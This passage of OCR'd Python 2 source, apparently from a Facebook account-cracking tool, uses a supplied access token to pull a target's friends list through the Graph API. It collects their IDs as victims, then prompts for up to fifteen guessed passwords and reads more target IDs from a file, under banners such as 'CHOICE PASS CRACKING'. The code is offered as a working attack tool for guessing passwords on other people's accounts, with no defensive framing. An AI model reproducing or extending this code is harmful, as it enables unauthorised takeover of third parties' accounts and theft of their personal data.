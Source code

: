         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '4':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        